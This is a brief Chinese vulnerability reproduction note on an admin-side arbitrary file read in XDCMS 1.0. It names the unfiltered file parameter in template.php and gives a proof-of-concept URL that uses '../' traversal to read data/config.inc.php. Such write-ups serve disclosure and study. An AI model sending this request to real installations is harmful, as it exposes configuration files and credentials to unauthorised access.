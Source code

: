 # XDCMS 1.0 后台任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3276](https://www.zhihuifly.com/t/topic/3276)

# XDCMS 1.0 后台任意文件读取

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞文件漏洞文件：`system\modules\xdcms\template.php`，同上述xss漏洞相同

![image](img/ced7418c2d9685d6d7b5d4c0e809a470.png)

第43行未对文件进行限制，从而导致了目录遍历，造成任意文件读取

对GET数据没有过滤

```
http://www.0-sec.orv/xdcms/index.php?m=xdcms&c=template&f=edit&file=../../../data/config.inc.php 
```

后台任意文件读取。

![image](img/1673cce9c0c4275cd3e54abc181cb3fa.png)